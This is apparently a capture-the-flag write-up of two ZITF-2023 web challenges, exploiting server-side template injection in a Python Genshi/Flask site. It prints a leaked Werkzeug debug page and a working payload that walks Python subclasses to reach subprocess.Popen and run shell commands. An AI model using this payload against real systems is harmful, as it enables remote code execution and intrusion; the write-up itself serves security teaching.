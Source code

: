 ```yaml
---
title: ZITF-2023 - Website_Render_1&2
date: 2023-03-20 +0200
tags: [Web security, Server-Side template injection]
categories: [Write-ups]
---
```


# Web Application Analysis

The web interface remained consistent across both challenges. It was a straightforward site that primarily rendered HTML content.

![website](assets/Website_render_1&2/website.png)


## Website Render 1 - Initial Render Analysis

![pres1](assets/Website_render_1&2/wabsite_rendre.PNG)

To take advantage of this site, I leveraged a Server-Side Template Injection (SSTI) vulnerability. This flaw permits the execution of arbitrary code by embedding variables within the templates.

Initially, the website restricted the parsing of code outside of HTML tags. To circumvent this safeguard, I enclosed all my payloads within `<p>` tags.

I attempted to initiate the exploit using the `${variable}` syntax.

!["ssti_reco"](assets/Website_render_1&2/ssti_reco.PNG)

Full output : 

```html
<!doctype html>
<html lang=en>
  <head>
    <title>genshi.template.eval.UndefinedError: "haha" not defined
 // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=resource&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=resource&amp;f=console.png">
    <script src="?__debugger__=yes&amp;cmd=resource&amp;f=debugger.js"></script>
    <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "FwWhDDaB2pGJMQ84Qck9";
    </script>
  </head>
  <body style="background-color: #fff">
    <div class="debugger">
<h1>UndefinedError</h1>
<div class="detail">
  <p class="errormsg">genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</p>
</div>
<h2 class="traceback">Traceback <em>(most recent call last)</em></h2>
<div class="traceback">
  <h3></h3>
  <ul><li><div class="frame" id="frame-140111860320000">
  <h4>File <cite class="filename">"&lt;string&gt;"</cite>,
      line <em class="line">1</em>,
      in <code class="function">&lt;Expression &#39;haha&#39;&gt;</code></h4>
  <div class="source "></div>
</div>
</ul>
  <blockquote>genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</blockquote>
</div>

<div class="plain">
    <p>
      This is the Copy/Paste friendly version of the traceback.
    </p>
    <textarea cols="50" rows="10" name="code" readonly>Traceback (most recent call last):
  File &#34;&lt;string&gt;&#34;, line 1, in &lt;Expression &#39;haha&#39;&gt;
genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</textarea>
</div>
<div class="explanation">
  The debugger caught an exception in your WSGI application.  You can now
  look at the traceback which led to the error.  <span class="nojavascript">
  If you enable JavaScript you can also use additional features such as code
  execution (if the evalex feature is enabled), automatic pasting of the
  exceptions and much more.</span>
</div>
      <div class="footer">
        Brought to you by <strong class="arthur">DON'T PANIC</strong>, your
        friendly Werkzeug powered traceback interpreter.
      </div>
    </div>

    <div class="pin-prompt">
      <div class="inner">
        <h3>Console Locked</h3>
        <p>
          The console is locked and needs to be unlocked by entering the PIN.
          You can find the PIN printed out on the standard output of your
          shell that runs the server.
        <form>
          <p>PIN:
            <input type=text name=pin size=14>
            <input type=submit name=btn value="Confirm Pin">
        </form>
      </div>
    </div>
  </body>
</html>

<!--

Traceback (most recent call last):
  File "<string>", line 1, in <Expression 'haha'>
genshi.template.eval.UndefinedError: "haha" not defined


-->
```

As observed at the end of the error message, Python was the underlying language, suggesting the application was likely powered by Flask.

To execute code using this vulnerability, it's essential to locate a library such as `os` or `subprocess`. I utilized the following statement to list available libraries:

```python
"".__class__.__mro__[1].__subclasses__()
```

This approach effectively enumerates the accessible subclasses.

!["ssti"](assets/Website_render_1&2/ssti.PNG)

By examining the output, I identified `subprocess.Popen` as a viable option.

!["ssti1"](assets/Website_render_1&2/ssti1.PNG)

This method enables the execution of system commands.

After determining the index of this library (which was 528 after several attempts), I crafted the following command to list directory contents:

```
<p>${"".__class__.__mro__[1].__subclasses__()[528]("ls", shell=True, stdout=-1).communicate()}</p>
```

!["ssti_ls1"](assets/Website_render_1&2/ssti_ls1.PNG)

The output revealed a directory named `flag`. A subsequent `ls` command within this directory exposed the `flag.txt` file.

!["ssti2"](assets/Website_render_1&2/ssti2.PNG)

This secured the first flag, thereby unlocking the subsequent challenge.


## Website Render 2 - Secondary Render Analysis

!["chall_head"](assets/Website_render_1&2/website_render2.PNG)

This challenge mirrored the first one closely. The primary distinction was the flag's location in a different directory, necessitating the use of `ls` to locate it.

!["sstiv2"](assets/Website_render_1&2/ssti_v2.PNG)

With the payload developed during the initial challenge, addressing the second challenge was straightforward.
